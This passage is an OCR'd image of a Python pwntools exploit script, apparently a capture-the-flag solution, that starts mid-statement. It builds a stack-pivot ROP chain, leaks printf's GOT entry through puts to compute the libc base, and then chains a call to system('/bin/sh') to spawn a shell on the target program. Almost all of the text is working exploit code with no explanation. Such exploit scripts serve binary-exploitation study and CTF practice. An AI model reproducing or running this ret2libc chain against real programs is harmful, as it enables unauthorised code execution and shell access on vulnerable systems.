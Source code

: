 ```py
    elf.address + 0x132a
])

# calculate padding for our second payload (stack pivot)
rip_offset = 72
padding = rip_offset - len(p)
log.info(f'padding --> {padding}')

## LEAKING PRINTF@GOT
pay = flat([
    asm('nop') * padding,
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a, # buy option
    sub_rsp_gadget
])

## LEAKING READ@GOT
# pay = flat([
#     asm('nop') * padding,
#     rdi_gadget,
#     elf.got['read'],
#     elf.plt['puts'],
#     elf.address + 0x132a, # buy option
#     sub_rsp_gadget
# ])

# sh.sendlineafter(b':', pay)
sh.sendafter(b':', pay)
leaked_libc = sh.recvline().strip()
# print(leaked_libc)
leaked_libc = unpack(leaked_libc.ljust(8,b'\x00'))
log.success(f'Leaked LIBC printf --> {hex(leaked_libc)}')

## CALCULATING LIBC BASE
libc.address = leaked_libc - libc.sym['printf']
log.success('LIBC BASE --> %#0x', libc.address) 

ret_addr = rop.find_gadget(['ret'])[0]
log.success(f'ret gadget --> {ret_addr}')

## RET2LIBC PAYLOAD
# payload = flat([
#     asm('nop') * padding,
#     ret_addr,
#     rdi_gadget,
#     next(libc.search(b'/bin/sh\x00')),
#     libc.sym['system'],
#     sub_rsp_gadget
# ])

## USING ROPSTAR
libcrop = ROP(libc)
libcrop.call(rop.find_gadget(['ret'])[0])
libcrop.call(libc.sym['system'], [next(libc.search(b'/bin/sh\x00'))])
libcrop.call(sub_rsp_gadget)
payload = asm('nop') * 40 
payload += libcrop.chain()
log.info(libcrop.dump())
print(payload)

sh.sendlineafter(b':', payload)
```